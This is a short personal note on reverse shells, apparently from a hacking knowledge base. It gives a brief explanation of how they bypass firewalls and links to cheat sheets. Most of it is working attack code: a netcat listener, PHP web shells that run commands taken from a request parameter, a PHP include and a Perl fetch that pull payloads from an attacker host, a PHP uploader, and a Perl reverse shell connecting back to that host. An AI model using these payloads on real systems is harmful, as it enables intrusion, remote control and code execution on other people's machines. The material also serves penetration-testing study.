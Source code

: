 ```yaml
---
is_a: "[[note]]"
topics: "[[hacking]]"
---
```

# Notes
Most systems are protected by firewalls restricting inbound traffic. A reverse shell bypasses this by making *outbound* connections from the system to a hacker-controlled one.

## Links
- http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
- http://roo7break.co.uk/?p=215
- [Bernardo Dag: Reverse shells one-liners](https://bernardodamele.blogspot.com/2011/09/reverse-shells-one-liners.html)
- [lanmaster53.com](https://www.lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/)
	- [http://laudanum.secureideas.net/](http://laudanum.secureideas.net/)
- http://pentestmonkey.net/blog/post-exploitation-without-a-tty
- https://gtfobins.github.io/#+reverse%20shell
- https://snyk.io/blog/reverse-shell-attack/

# Netcat listener
You need a listener for the reverse shell to connect back to. It should be open to the internet (or at least the IPs being attacked).
```bash
nc -lvp 9001
```

# Shell One-liners

```
PHP one-liners

<?php echo system($_GET['cmd']); ?>

<?php echo shell_exec($_GET['cmd']); ?>

<?php include "http://192.168.30.21/php-reverse-shell443.php"; ?>
```

This will execute $cmd in the background (no cmd window) without PHP waiting for it to finish, on both Windows and Unix.
```
<?php
function execInBackground($cmd) {
if (substr(php_uname(), 0, 7) == "Windows"){
pclose(popen("start /B ". $cmd, "r"));
}
else {
exec($cmd . " > _dev_null &");
}
}
?>
```

Short php uploader
```
<?php
try {
ini_set('allow_url_fopen', true);
$data = file_get_contents($_GET['url']);
$handle = fopen($_GET['dest'], "w");
fwrite($handle, $data);
fclose($handle);
echo 'Download succeeded';
} catch (Exception $e) {
echo 'Caught exception: ',  $e->getMessage(), "\n";
}
?>
```

Use perl when no wget
```
perl -e 'use File::Fetch; my $ff = File::Fetch->new(uri => "http://192.168.30.21/28718.c"); my $where = $ff->fetch() or die $ff->error;'
```

Need to test, but should create a reverse shell in Perl on both Linux and Windows
 # Create reverse shell in background
```
my $pid = fork;
if ($pid == 0) {
my $c=new IO::Socket::INET(PeerAddr=>"192.168.30.21:443");
STDIN->fdopen($c, 'r');
STDOUT->fdopen($c, 'w');
STDERR->fdopen($c, 'w');
while (<>) {
system($_);
}
}
```
